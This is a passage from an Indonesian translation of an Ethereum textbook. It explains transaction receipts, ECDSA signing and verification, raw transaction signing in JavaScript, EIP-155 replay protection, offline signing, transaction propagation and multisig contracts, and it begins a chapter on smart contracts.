"0x7bcc327ae5d369f75b98c0d59037eec41d44dfae75447fd753d9f2db9439124b"
```

Merupakan praktik yang baik untuk selalu menentukan parameter `to`, bahkan dalam kasus pembuatan kontrak alamat-nol, karena biaya kehilangan ether Anda selamanya karena tidak sengaja mengirimkannya ke `0x0` terlalu besar. Anda juga harus menentukan `gasPrice` dan `gasLimit`.

Setelah kontrak ditambang, kita dapat melihatnya di penjelajah blok Etherscan, seperti yang ditunjukkan pada Gambar 6-5.

<p align="center">
  
</p>

Kita dapat melihat **resi (*receipt*)** dari transaksi untuk mendapatkan informasi tentang kontrak:

```javascript
> eth.getTransactionReceipt("0x7bcc327ae5d369f75b98c0d59037eec41d44dfae75447fd753d9f2db9439124b");

{
  blockHash: "0x6fa7d8bf982490de6246875deb2c21e5f3665b4422089c060138fc3907a95bb2",
  blockNumber: 3105256,
  contractAddress: "0xb226270965b43373e98ffc6e2c7693c17e2cf40b",
  cumulativeGasUsed: 113558,
  from: "0x2a966a87db5913c1b22a59b0d8a11cc51c167a89",
  gasUsed: 113558,
  logs: [],
  logsBloom: "0x00000000000000000000000000000000000000000000000000...00000",
  status: "0x1",
  to: null,
  transactionHash: "0x7bcc327ae5d369f75b98c0d59037eec41d44dfae75447fd753d9f2db9439124b",
  transactionIndex: 0
}
```

Resi ini mencakup alamat kontrak, yang dapat kita gunakan untuk mengirim dana ke dan menerima dana dari kontrak seperti yang ditunjukkan di bagian sebelumnya:

```javascript
> contract_address = "0xb226270965b43373e98ffc6e2c7693c17e2cf40b"

> web3.eth.sendTransaction({from: src, to: contract_address, value: web3.toWei(0.1, "ether"), data: ""});
"0x6ebf2e1fe95cc9c1fe2e1a0dc45678ccd127d374fdf145c5c8e6cd4ea2e6ca9f"

> web3.eth.sendTransaction({from: src, to: contract_address, value: 0, data: "0x2e1a7d4d000000000000000000000000000000000000000000000000002386f26fc10000"});
"0x59836029e7ce43e92daf84313816ca31420a76a9a571b69e31ec4bf4b37cd16e"
```

Setelah beberapa saat, kedua transaksi tersebut terlihat di Etherscan, seperti yang ditunjukkan pada Gambar 6-6.

<p align="center">
  
</p>

### Tanda Tangan Digital

Sejauh ini, kita belum mendalami detail apa pun tentang tanda tangan digital. Di bagian ini, kita akan melihat cara kerja tanda tangan digital dan bagaimana tanda tangan tersebut dapat digunakan untuk menyajikan bukti kepemilikan kunci privat tanpa mengungkapkan kunci privat tersebut.

#### Algoritma Tanda Tangan Digital Kurva Eliptik (Elliptic Curve Digital Signature Algorithm)

Algoritma tanda tangan digital yang digunakan di Ethereum adalah **Elliptic Curve Digital Signature Algorithm (ECDSA)**. Algoritma ini didasarkan pada pasangan kunci privat-publik kurva eliptik, seperti yang dijelaskan dalam “Penjelasan Kriptografi Kurva Eliptik” di halaman 65.

Tanda tangan digital melayani tiga tujuan di Ethereum (lihat *sidebar* berikut). Pertama, tanda tangan membuktikan bahwa pemilik kunci privat, yang secara implisit adalah pemilik akun Ethereum, telah **mengizinkan** pembelanjaan ether, atau eksekusi sebuah kontrak. Kedua, ia menjamin **non-repudiasi**: bukti otorisasi tidak dapat disangkal. Ketiga, tanda tangan membuktikan bahwa data transaksi **tidak telah dan tidak dapat diubah** oleh siapa pun setelah transaksi ditandatangani.

> #### Definisi Tanda Tangan Digital dari Wikipedia
>
> Tanda tangan digital adalah skema matematis untuk menyajikan keaslian pesan atau dokumen digital. Tanda tangan digital yang valid memberi penerima alasan untuk percaya bahwa pesan tersebut dibuat oleh pengirim yang dikenal (**autentikasi**), bahwa pengirim tidak dapat menyangkal telah mengirim pesan tersebut (**non-repudiasi**), dan bahwa pesan tersebut tidak diubah dalam perjalanan (**integritas**).
>
> Sumber: [https://en.wikipedia.org/wiki/Digital\_signature](https://en.wikipedia.org/wiki/Digital_signature)

#### Cara Kerja Tanda Tangan Digital

Tanda tangan digital adalah skema matematis yang terdiri dari dua bagian. Bagian pertama adalah algoritma untuk **membuat tanda tangan**, menggunakan kunci privat (kunci penandatangan), dari sebuah pesan (yang dalam kasus kita adalah transaksi). Bagian kedua adalah algoritma yang memungkinkan siapa pun untuk **memverifikasi tanda tangan** hanya dengan menggunakan pesan dan kunci publik.

##### Membuat tanda tangan digital

Dalam implementasi ECDSA di Ethereum, "pesan" yang ditandatangani adalah transaksi, atau lebih akuratnya, hash Keccak-256 dari data yang dikodekan RLP dari transaksi tersebut. Kunci penandatangan adalah kunci privat EOA. Hasilnya adalah tanda tangan:

$Sig = F\_{sig}(F\_{keccak256}(m), k)$

di mana:

  * $k$ adalah kunci privat penandatangan.
  * $m$ adalah transaksi yang dikodekan RLP.
  * $F\_{keccak256}$ adalah fungsi hash Keccak-256.
  * $F\_{sig}$ adalah algoritma penandatanganan.
  * $Sig$ adalah tanda tangan yang dihasilkan.

Fungsi $F\_{sig}$ menghasilkan tanda tangan $Sig$ yang terdiri dari dua nilai, yang biasa disebut sebagai $r$ dan $s$:

$Sig = (r, s)$

##### Memverifikasi Tanda Tangan

Untuk memverifikasi tanda tangan, seseorang harus memiliki tanda tangan ($r$ dan $s$), transaksi yang diserialisasi, dan kunci publik yang sesuai dengan kunci privat yang digunakan untuk membuat tanda tangan. Pada dasarnya, verifikasi tanda tangan berarti "hanya pemilik kunci privat yang menghasilkan kunci publik ini yang dapat menghasilkan tanda tangan ini pada transaksi ini."

Algoritma verifikasi tanda tangan mengambil pesan (yaitu, hash dari transaksi untuk penggunaan kita), kunci publik penanda tangan, dan tanda tangan (nilai $r$ dan $s$), dan mengembalikan `true` jika tanda tangan tersebut valid untuk pesan dan kunci publik ini.

#### Matematika ECDSA

Seperti yang disebutkan sebelumnya, tanda tangan dibuat oleh fungsi matematis $F\_{sig}$ yang menghasilkan tanda tangan yang terdiri dari dua nilai, $r$ dan $s$. Di bagian ini kita akan melihat fungsi $F\_{sig}$ secara lebih detail.

Algoritma penandatanganan pertama-tama menghasilkan kunci privat *ephemeral* (sementara) dengan cara yang aman secara kriptografis. Kunci sementara ini digunakan dalam perhitungan nilai $r$ dan $s$ untuk memastikan bahwa kunci privat asli pengirim tidak dapat dihitung oleh penyerang yang mengamati transaksi yang ditandatangani di jaringan Ethereum.

Seperti yang kita ketahui dari “Kunci Publik” di halaman 64, kunci privat *ephemeral* digunakan untuk menurunkan kunci publik yang sesuai (*ephemeral*), jadi kita memiliki:

  * Angka acak yang aman secara kriptografis $q$, yang digunakan sebagai kunci privat *ephemeral*.
  * Kunci publik *ephemeral* yang sesuai $Q$, yang dihasilkan dari $q$ dan titik generator kurva eliptik $G$.

Nilai **$r$** dari tanda tangan digital kemudian adalah koordinat x dari kunci publik *ephemeral* $Q$.

Dari sana, algoritma menghitung nilai **$s$** dari tanda tangan, sedemikian rupa sehingga:

$s \\equiv q^{-1} (\\text{Keccak256}(m) + r \\cdot k) \\pmod{p}$

di mana:

  * $q$ adalah kunci privat *ephemeral*.
  * $r$ adalah koordinat x dari kunci publik *ephemeral*.
  * $k$ adalah kunci privat penandatangan (pemilik EOA).
  * $m$ adalah data transaksi.
  * $p$ adalah orde prima dari kurva eliptik.

**Verifikasi** adalah kebalikan dari fungsi pembuatan tanda tangan, menggunakan nilai $r$ dan $s$ serta kunci publik pengirim untuk menghitung nilai $Q$, yang merupakan sebuah titik pada kurva eliptik (kunci publik *ephemeral* yang digunakan dalam pembuatan tanda tangan). Langkah-langkahnya adalah sebagai berikut:

1.  Periksa semua input terbentuk dengan benar.
2.  Hitung $w = s^{-1} \\pmod{p}$.
3.  Hitung $u\_1 = \\text{Keccak256}(m) \\cdot w \\pmod{p}$.
4.  Hitung $u\_2 = r \\cdot w \\pmod{p}$.
5.  Terakhir, hitung titik pada kurva eliptik $Q \\equiv u\_1 \\cdot G + u\_2 \\cdot K \\pmod{p}$.

di mana:

  * $r$ dan $s$ adalah nilai tanda tangan.
  * $K$ adalah kunci publik penanda tangan (pemilik EOA).
  * $m$ adalah data transaksi yang ditandatangani.
  * $G$ adalah titik generator kurva eliptik.
  * $p$ adalah orde prima dari kurva eliptik.

Jika koordinat x dari titik $Q$ yang dihitung sama dengan $r$, maka verifikator dapat menyimpulkan bahwa tanda tangan tersebut valid.

Perhatikan bahwa dalam memverifikasi tanda tangan, kunci privat tidak diketahui maupun diungkapkan.

> ECDSA tentu saja merupakan matematika yang cukup rumit; penjelasan lengkap berada di luar cakupan buku ini. Sejumlah panduan hebat secara daring akan memandu Anda langkah demi langkah: cari "ECDSA explained" atau coba yang ini: [http://bit.ly/2r0HhGB](http://bit.ly/2r0HhGB).

#### Praktik Penandatanganan Transaksi

Untuk menghasilkan transaksi yang valid, pengirim harus menandatangani pesan secara digital, menggunakan Elliptic Curve Digital Signature Algorithm. Ketika kita mengatakan "menandatangani transaksi", kita sebenarnya bermaksud "menandatangani hash Keccak-256 dari data transaksi yang diserialisasi RLP."
**Tanda tangan diterapkan pada hash dari data transaksi, bukan pada transaksi itu sendiri.**

Untuk menandatangani transaksi di Ethereum, pengirim harus:

1.  Membuat struktur data transaksi, yang berisi sembilan bidang: `nonce`, `gasPrice`, `gasLimit`, `to`, `value`, `data`, `chainID`, `0`, `0`.
2.  Menghasilkan pesan serial yang dikodekan RLP dari struktur data transaksi.
3.  Menghitung hash Keccak-256 dari pesan serial ini.
4.  Menghitung tanda tangan ECDSA, menandatangani hash dengan kunci privat EOA asal.
5.  Menambahkan nilai $v$, $r$, dan $s$ dari tanda tangan ECDSA ke transaksi.

Variabel tanda tangan khusus **$v$** menunjukkan dua hal: ID rantai (*chain ID*) dan pengidentifikasi pemulihan (*recovery identifier*) untuk membantu fungsi `ECDSArecover` memeriksa tanda tangan. Nilai ini dihitung sebagai salah satu dari 27 atau 28, atau sebagai ID rantai dikalikan dua ditambah 35 atau 36. Untuk informasi lebih lanjut tentang ID rantai, lihat “Pembuatan Transaksi Mentah dengan EIP-155” di halaman 120. Pengidentifikasi pemulihan (27 atau 28 dalam tanda tangan "gaya lama", atau 35 atau 36 dalam transaksi gaya Spurious Dragon penuh) digunakan untuk menunjukkan paritas komponen y dari kunci publik (lihat “Nilai Awalan Tanda Tangan (v) dan Pemulihan Kunci Publik” di halaman 120 untuk detail lebih lanjut).

> Pada blok \#2.675.000, Ethereum mengimplementasikan *hard fork* "Spurious Dragon", yang, di antara perubahan lainnya, memperkenalkan skema penandatanganan baru yang mencakup perlindungan pemutaran ulang transaksi (*replay protection*), mencegah transaksi yang ditujukan untuk satu jaringan diputar ulang di jaringan lain. Skema penandatanganan baru ini ditentukan dalam EIP-155. Perubahan ini memengaruhi bentuk transaksi dan tanda tangannya, jadi perhatian harus diberikan pada variabel tanda tangan pertama dari tiga (yaitu, v), yang mengambil salah satu dari dua bentuk dan menunjukkan bidang data yang termasuk dalam pesan transaksi yang di-hash.

#### Pembuatan dan Penandatanganan Transaksi Mentah

Di bagian ini kita akan membuat transaksi mentah dan menandatanganinya, menggunakan pustaka `ethereumjs-tx`. Ini menunjukkan fungsi-fungsi yang biasanya digunakan di dalam dompet, atau aplikasi yang menandatangani transaksi atas nama pengguna. Kode sumber untuk contoh ini ada di file `raw_tx_demo.js` di repositori GitHub buku ini:

```javascript
// Muat persyaratan terlebih dahulu:
//
// npm init
// npm install ethereumjs-tx
//
// Jalankan dengan: $ node raw_tx_demo.js

const ethTx = require('ethereumjs-tx');

const txData = {
  nonce: '0x0',
  gasPrice: '0x09184e72a000',
  gasLimit: '0x30000',
  to: '0xb0920c523d582040f2bcb1bd7fb1c7c1ecebdb34',
  value: '0x00',
  data: '',
  v: "0x1c", // ID rantai utama Ethereum
  r: 0,
  s: 0
};

tx = new ethTx(txData);
console.log('Tx Terenkode RLP: 0x' + tx.serialize().toString('hex'))

txHash = tx.hash(); // Langkah ini mengkodekan ke RLP dan menghitung hash
console.log('Hash Tx: 0x' + txHash.toString('hex'))

// Tandatangani transaksi
const privKey = Buffer.from(
  '91c8360c4cb4b5fac45513a7213f31d4e4a7bfcb4630e9fbf074f42a203ac0b9', 'hex');

tx.sign(privKey);

serializedTx = tx.serialize();
rawTx = 'Transaksi Mentah yang Ditandatangani: 0x' + serializedTx.toString('hex');
console.log(rawTx)
```

Menjalankan kode contoh menghasilkan hasil berikut:

```bash
$ node raw_tx_demo.js
Tx Terenkode RLP: 0xe6808609184e72a0008303000094b0920c523d582040f2bcb1bd7fb1c7c1...
Hash Tx: 0xaa7f03f9f4e52fcf69f836a6d2bbc7706580adce0a068ff6525ba337218e6992
Transaksi Mentah yang Ditandatangani: 0xf866808609184e72a0008303000094b0920c523d582040f2bcb1...
```

#### Pembuatan Transaksi Mentah dengan EIP-155

Standar EIP-155 "Perlindungan Serangan Pemutaran Ulang Sederhana" menentukan pengkodean transaksi yang dilindungi dari serangan pemutaran ulang, yang mencakup pengidentifikasi rantai (*chain identifier*) di dalam data transaksi, sebelum penandatanganan. Ini memastikan bahwa transaksi yang dibuat untuk satu blockchain (mis., jaringan utama Ethereum) tidak valid di blockchain lain (mis., Ethereum Classic atau jaringan uji Ropsten). Oleh karena itu, transaksi yang disiarkan di satu jaringan tidak dapat diputar ulang di jaringan lain, sesuai dengan nama standar tersebut.

EIP-155 menambahkan tiga bidang ke enam bidang utama dari struktur data transaksi, yaitu **pengidentifikasi rantai, 0, dan 0**. Tiga bidang ini ditambahkan ke data transaksi sebelum dikodekan dan di-hash. Oleh karena itu, mereka mengubah hash transaksi, yang kemudian diterapkan tanda tangan. Dengan menyertakan pengidentifikasi rantai dalam data yang ditandatangani, tanda tangan transaksi mencegah perubahan apa pun, karena tanda tangan menjadi tidak valid jika pengidentifikasi rantai diubah. Oleh karena itu, EIP-155 membuat tidak mungkin sebuah transaksi diputar ulang di rantai lain, karena validitas tanda tangan bergantung pada pengidentifikasi rantai.

Bidang pengidentifikasi rantai mengambil nilai sesuai dengan jaringan yang dituju oleh transaksi, seperti yang diuraikan dalam Tabel 6-1.

<p align="center">
  
</p>

Struktur transaksi yang dihasilkan dikodekan dengan RLP, di-hash, dan ditandatangani. Algoritma tanda tangan sedikit dimodifikasi untuk mengkodekan pengidentifikasi rantai di awalan `v` juga. Untuk detail lebih lanjut, lihat spesifikasi EIP-155.

### Nilai Awalan Tanda Tangan (v) dan Pemulihan Kunci Publik

Seperti yang disebutkan dalam “Struktur Transaksi” di halaman 99, pesan transaksi tidak menyertakan bidang "from". Itu karena kunci publik pengirim dapat dihitung langsung dari tanda tangan ECDSA. Setelah Anda memiliki kunci publik, Anda dapat menghitung alamatnya dengan mudah. Proses memulihkan kunci publik penanda tangan disebut **pemulihan kunci publik (*public key recovery*)**.

Dengan nilai $r$ dan $s$ yang dihitung dalam “Matematika ECDSA” di halaman 116, kita dapat menghitung dua kemungkinan kunci publik.

Pertama, kita menghitung dua titik kurva eliptik, $R$ dan $R'$, dari nilai koordinat x yaitu $r$ yang ada di tanda tangan. Ada dua titik karena kurva eliptik simetris terhadap sumbu x, sehingga untuk setiap nilai x ada dua kemungkinan nilai yang sesuai dengan kurva, satu di setiap sisi sumbu x.

Dari $r$ kita juga menghitung $r^{-1}$, yang merupakan invers perkalian dari $r$.

Terakhir, kita menghitung $z$, yang merupakan bit terendah `n` dari hash pesan, di mana `n` adalah orde kurva eliptik.

Dua kemungkinan kunci publik tersebut adalah:

$K_1 = r^{-1} (sR – zG)$

dan:

$K_2 = r^{-1} (sR' – zG)$

di mana:
* $K_1$ dan $K_2$ adalah dua kemungkinan untuk kunci publik penanda tangan.
* $r^{-1}$ adalah invers perkalian dari nilai $r$ tanda tangan.
* $s$ adalah nilai $s$ tanda tangan.
* $R$ dan $R'$ adalah dua kemungkinan untuk kunci publik *ephemeral* $Q$.
* $z$ adalah bit terendah `n` dari hash pesan.
* $G$ adalah titik generator kurva eliptik.

Untuk membuat segalanya lebih efisien, tanda tangan transaksi menyertakan nilai awalan **$v$**, yang memberi tahu kita mana dari dua kemungkinan nilai $R$ yang merupakan kunci publik *ephemeral*. Jika $v$ **genap**, maka $R$ adalah nilai yang benar. Jika $v$ **ganjil**, maka itu adalah $R'$. Dengan begitu, kita hanya perlu menghitung satu nilai untuk $R$ dan hanya satu nilai untuk $K$.

### Memisahkan Penandatanganan dan Transmisi (Penandatanganan Luring)

Setelah sebuah transaksi ditandatangani, ia siap untuk dikirim ke jaringan Ethereum. Tiga langkah membuat, menandatangani, dan menyiarkan transaksi biasanya terjadi sebagai satu operasi tunggal, misalnya menggunakan `web3.eth.sendTransaction`. Namun, seperti yang Anda lihat di “Pembuatan dan Penandatanganan Transaksi Mentah” di halaman 119, Anda dapat membuat dan menandatangani transaksi dalam dua langkah terpisah. Setelah Anda memiliki transaksi yang ditandatangani, Anda kemudian dapat mengirimkannya menggunakan `web3.eth.sendSignedTransaction`, yang mengambil transaksi yang dikodekan heksadesimal dan ditandatangani lalu mentransmisikannya di jaringan Ethereum.

Mengapa Anda ingin memisahkan penandatanganan dan transmisi transaksi? Alasan paling umum adalah **keamanan**. Komputer yang menandatangani transaksi harus memiliki kunci privat yang tidak terkunci yang dimuat di memori. Komputer yang melakukan transmisi harus terhubung ke internet (dan menjalankan klien Ethereum). Jika kedua fungsi ini berada di satu komputer, maka Anda memiliki kunci privat di sistem daring, yang cukup berbahaya. Memisahkan fungsi penandatanganan dan transmisi dan melakukannya di mesin yang berbeda (masing-masing di perangkat luring dan daring) disebut **penandatanganan luring (*offline signing*)** dan merupakan praktik keamanan yang umum.

Gambar 6-7 menunjukkan prosesnya:
1.  Buat transaksi yang belum ditandatangani di komputer daring di mana keadaan akun saat ini, terutama nonce saat ini dan dana yang tersedia, dapat diambil.
2.  Transfer transaksi yang belum ditandatangani ke perangkat luring yang terisolasi (*air-gapped*) untuk penandatanganan transaksi, mis., melalui kode QR atau USB flash drive.
3.  Kirim transaksi yang sudah ditandatangani (kembali) ke perangkat daring untuk disiarkan di blockchain Ethereum, mis., melalui kode QR atau USB flash drive.

<p align="center">
  
</p>

Tergantung pada tingkat keamanan yang Anda butuhkan, komputer “penandatangan luring” Anda dapat memiliki berbagai tingkat pemisahan dari komputer daring, mulai dari subnet yang terisolasi dan dilindungi firewall (daring tetapi terpisah) hingga sistem yang sepenuhnya luring yang dikenal sebagai sistem ***air-gapped***. Dalam sistem *air-gapped*, tidak ada konektivitas jaringan sama sekali—komputer dipisahkan dari lingkungan daring oleh celah “udara.” Untuk menandatangani transaksi, Anda mentransfernya ke dan dari komputer *air-gapped* menggunakan media penyimpanan data atau (lebih baik) webcam dan kode QR. Tentu saja, ini berarti Anda harus secara manual mentransfer setiap transaksi yang ingin Anda tandatangani, dan ini tidak dapat diskalakan.

Meskipun tidak banyak lingkungan yang dapat memanfaatkan sistem *air-gapped* sepenuhnya, bahkan tingkat isolasi yang kecil pun memiliki manfaat keamanan yang signifikan. Misalnya, subnet terisolasi dengan firewall yang hanya mengizinkan protokol antrian pesan (*message-queue*) dapat menawarkan permukaan serangan (*attack surface*) yang jauh lebih kecil dan keamanan yang jauh lebih tinggi daripada menandatangani di sistem daring. Banyak perusahaan menggunakan protokol seperti **ZeroMQ (0MQ)** untuk tujuan ini. Dengan pengaturan seperti itu, transaksi diserialisasi dan diantrekan untuk ditandatangani. Protokol antrian mentransmisikan pesan yang diserialisasi, dengan cara yang mirip dengan soket TCP, ke komputer penandatangan. Komputer penandatangan membaca transaksi yang diserialisasi dari antrian (dengan hati-hati), menerapkan tanda tangan dengan kunci yang sesuai, dan menempatkannya pada antrian keluar. Antrian keluar mentransmisikan transaksi yang ditandatangani ke komputer dengan klien Ethereum yang mengambilnya dari antrian dan mentransmisikannya.

### Propagasi Transaksi

Jaringan Ethereum menggunakan protokol ***“flood routing”***. Setiap klien Ethereum bertindak sebagai *node* dalam jaringan *peer-to-peer* (P2P), yang (idealnya) membentuk jaringan *mesh*. Tidak ada *node* jaringan yang istimewa: semuanya bertindak sebagai rekan yang setara. Kami akan menggunakan istilah “*node*” untuk merujuk pada klien Ethereum yang terhubung dan berpartisipasi dalam jaringan P2P.

Propagasi transaksi dimulai dengan *node* Ethereum asal yang membuat (atau menerima dari luring) transaksi yang ditandatangani. Transaksi tersebut divalidasi dan kemudian ditransmisikan ke semua *node* Ethereum lain yang terhubung langsung ke *node* asal. Rata-rata, setiap *node* Ethereum mempertahankan koneksi ke setidaknya 13 *node* lain, yang disebut **tetangganya (*neighbors*)**. Setiap *node* tetangga memvalidasi transaksi segera setelah mereka menerimanya. Jika mereka setuju bahwa itu valid, mereka menyimpan salinan dan menyebarkannya ke semua tetangga mereka (kecuali yang mengirimkannya). Akibatnya, transaksi menyebar keluar dari *node* asal, membanjiri seluruh jaringan, sampai semua *node* di jaringan memiliki salinan transaksi tersebut. *Node* dapat memfilter pesan yang mereka sebarkan, tetapi standarnya adalah menyebarkan semua pesan transaksi valid yang mereka terima.

Hanya dalam beberapa detik, sebuah transaksi Ethereum menyebar ke semua *node* Ethereum di seluruh dunia. Dari perspektif setiap *node*, tidak mungkin untuk membedakan asal transaksi. Tetangga yang mengirimkannya ke *node* tersebut mungkin adalah pembuat transaksi atau mungkin telah menerimanya dari salah satu tetangganya. Untuk dapat melacak asal-usul transaksi, atau mengganggu propagasi, seorang penyerang harus mengendalikan persentase yang signifikan dari semua *node*. Ini adalah bagian dari desain keamanan dan privasi jaringan P2P, terutama yang diterapkan pada jaringan blockchain.

### Pencatatan di Blockchain

Meskipun semua *node* di Ethereum adalah rekan yang setara, beberapa di antaranya dioperasikan oleh **penambang (*miners*)** dan menyalurkan transaksi serta blok ke **ladang penambangan (*mining farms*)**, yaitu komputer dengan unit pemrosesan grafis (GPU) berkinerja tinggi. Komputer penambang menambahkan transaksi ke blok kandidat dan berusaha menemukan bukti kerja (*proof of work*) yang membuat blok kandidat tersebut valid. Kami akan membahas ini lebih detail di Bab 14.

Tanpa terlalu banyak detail, transaksi yang valid pada akhirnya akan dimasukkan ke dalam blok transaksi dan, dengan demikian, dicatat di blockchain Ethereum. Setelah ditambang ke dalam sebuah blok, transaksi juga memodifikasi keadaan tunggal (*singleton state*) Ethereum, baik dengan mengubah saldo sebuah akun (dalam kasus pembayaran sederhana) atau dengan memanggil kontrak yang mengubah keadaan internal mereka. Perubahan ini dicatat bersamaan dengan transaksi, dalam bentuk **resi transaksi (*transaction receipt*)**, yang mungkin juga menyertakan *event*. Kami akan memeriksa semua ini lebih detail di Bab 13.

Sebuah transaksi yang telah menyelesaikan perjalanannya dari pembuatan, penandatanganan oleh EOA, propagasi, dan akhirnya penambangan telah mengubah keadaan tunggal dan meninggalkan jejak yang tak terhapuskan di blockchain.

### Transaksi Tanda Tangan Ganda (Multisig)

Jika Anda akrab dengan kemampuan skrip Bitcoin, Anda tahu bahwa dimungkinkan untuk membuat akun multisig Bitcoin yang hanya dapat membelanjakan dana ketika beberapa pihak menandatangani transaksi (misalnya, 2 dari 2 atau 3 dari 4 tanda tangan). Transaksi nilai EOA dasar Ethereum tidak memiliki ketentuan untuk tanda tangan ganda; namun, batasan penandatanganan sewenang-wenang dapat ditegakkan oleh **kontrak pintar (*smart contracts*)** dengan kondisi apa pun yang dapat Anda pikirkan, untuk menangani transfer ether maupun token.

Untuk memanfaatkan kemampuan ini, ether harus ditransfer ke **kontrak dompet (*wallet contract*)** yang diprogram dengan aturan pengeluaran yang diinginkan, seperti persyaratan tanda tangan ganda atau batas pengeluaran (atau kombinasi keduanya). Kontrak dompet kemudian mengirimkan dana ketika diminta oleh EOA yang berwenang setelah kondisi pengeluaran terpenuhi. Misalnya, untuk melindungi ether Anda di bawah kondisi multisig, transfer ether tersebut ke kontrak multisig. Setiap kali Anda ingin mengirim dana ke akun lain, semua pengguna yang diperlukan harus mengirim transaksi ke kontrak menggunakan aplikasi dompet biasa, yang secara efektif memberi wewenang kepada kontrak untuk melakukan transaksi akhir.

Kontrak-kontrak ini juga dapat dirancang untuk memerlukan beberapa tanda tangan sebelum mengeksekusi kode lokal atau untuk memicu kontrak lain. Keamanan skema pada akhirnya ditentukan oleh kode kontrak multisig.

Kemampuan untuk mengimplementasikan transaksi tanda tangan ganda sebagai kontrak pintar menunjukkan fleksibilitas Ethereum. Namun, ini adalah pedang bermata dua, karena fleksibilitas ekstra dapat menyebabkan bug yang merusak keamanan skema tanda tangan ganda. Ada, faktanya, sejumlah proposal untuk membuat perintah tanda tangan ganda di EVM yang menghilangkan kebutuhan akan kontrak pintar, setidaknya untuk skema tanda tangan ganda M-dari-N yang sederhana. Ini akan setara dengan sistem tanda tangan ganda Bitcoin, yang merupakan bagian dari aturan konsensus inti dan telah terbukti kuat dan aman.

### Kesimpulan

Transaksi adalah titik awal dari setiap aktivitas dalam sistem Ethereum. Transaksi adalah "input" yang menyebabkan Ethereum Virtual Machine mengevaluasi kontrak, memperbarui saldo, dan secara lebih umum memodifikasi keadaan blockchain Ethereum.

Selanjutnya, kita akan bekerja dengan kontrak pintar secara lebih detail dan belajar cara memprogram dalam bahasa berorientasi kontrak, Solidity.

---

# BAB 7
## Kontrak Pintar (Smart Contracts) dan Solidity

Seperti yang telah kita bahas di Bab 2, ada dua jenis akun yang berbeda di Ethereum: **akun milik eksternal (EOA)** dan **akun kontrak**. EOA dikendalikan oleh pengguna, seringkali melalui perangkat lunak seperti aplikasi dompet yang berada di luar platform Ethereum. Sebaliknya, akun kontrak dikendalikan oleh kode program (juga biasa disebut sebagai “kontrak pintar” atau *“smart contracts”*) yang dieksekusi oleh Ethereum Virtual Machine. Singkatnya, EOA adalah akun sederhana tanpa kode atau penyimpanan data terkait, sedangkan akun kontrak memiliki kode dan penyimpanan data terkait. EOA dikendalikan oleh transaksi yang dibuat dan ditandatangani secara kriptografis dengan kunci privat di "dunia nyata" yang eksternal dan independen dari protokol, sedangkan akun kontrak tidak memiliki kunci privat sehingga "mengendalikan diri mereka sendiri" dengan cara yang telah ditentukan sebelumnya oleh kode kontrak pintar mereka. Kedua jenis akun diidentifikasi oleh alamat Ethereum. Dalam bab ini, kita akan membahas akun kontrak dan kode program yang mengendalikannya.

### Apa Itu Kontrak Pintar?

Istilah *smart contract* atau kontrak pintar telah digunakan selama bertahun-tahun untuk mendeskripsikan berbagai hal yang berbeda. Pada tahun 1990-an, kriptografer Nick Szabo menciptakan istilah tersebut dan mendefinisikannya sebagai “seperangkat janji, yang ditentukan dalam bentuk digital, termasuk protokol di mana para pihak melakukan janji-janji lainnya.” Sejak itu, konsep kontrak pintar telah berevolusi, terutama setelah pengenalan platform blockchain terdesentralisasi dengan penemuan Bitcoin pada tahun 2009. Dalam konteks Ethereum, istilah ini sebenarnya sedikit **salah kaprah**, mengingat kontrak pintar Ethereum bukanlah kontrak yang pintar maupun kontrak hukum, tetapi istilah tersebut telah melekat. Dalam buku ini, kami menggunakan istilah “kontrak pintar” untuk merujuk pada **program komputer yang tidak dapat diubah yang berjalan secara deterministik dalam konteks Ethereum Virtual Machine sebagai bagian dari protokol jaringan Ethereum**—yaitu, di komputer dunia Ethereum yang terdesentralisasi.

Mari kita urai definisi tersebut:

  * **Program komputer**
    Kontrak pintar hanyalah program komputer. Kata “kontrak” tidak memiliki arti hukum dalam konteks ini.
  * **Tidak dapat diubah (*Immutable*)**
    Setelah diterapkan, kode kontrak pintar tidak dapat diubah. Berbeda dengan perangkat lunak tradisional, satu-satunya cara untuk memodifikasi kontrak pintar adalah dengan menerapkan instansi baru.
  * **Deterministik**
    Hasil dari eksekusi kontrak pintar adalah sama untuk semua orang yang menjalankannya, dengan konteks transaksi yang memulai eksekusinya dan keadaan blockchain Ethereum pada saat eksekusi.
  * **Konteks EVM**
    Kontrak pintar beroperasi dengan konteks eksekusi yang sangat terbatas. Mereka dapat mengakses keadaan mereka sendiri, konteks transaksi yang memanggil mereka, dan beberapa informasi tentang blok terbaru.
  * **Komputer dunia terdesentralisasi**
    EVM berjalan sebagai instansi lokal di setiap *node* Ethereum, tetapi karena semua instansi EVM beroperasi pada keadaan awal yang sama dan menghasilkan keadaan akhir yang sama, sistem secara keseluruhan beroperasi sebagai satu “komputer dunia.”

### Siklus Hidup Kontrak Pintar

